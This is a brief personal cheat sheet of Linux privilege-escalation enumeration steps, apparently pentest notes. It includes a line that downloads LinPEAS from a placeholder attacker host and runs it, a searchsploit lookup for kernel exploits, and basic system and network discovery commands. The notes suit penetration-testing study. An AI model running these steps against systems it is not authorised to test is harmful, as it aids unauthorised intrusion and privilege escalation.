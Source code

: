 ```yaml
---
description: Bunch of things I tend to forget.
---
```


# Linux PE Methodology

## Automatic

Generally, I like to run LinPeas.sh as a start to enumeration, because it does a lot of checks for you sometimes.

```bash
wget <attacker_IP>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

There are manual ways to enumerate, however.

## Manual

#### Check hostname:

```bash
uname -a
```

#### Check for KE:

```bash
lscpu
cat /proc/version
cat /etc/issue
searchsploit Linux Kernel <version>
```

#### Check for networking details:

```bash
arp -a 
ifconfig
ip addr
```

#### Checking network routes:

```bash
route -a 
```

### Looting

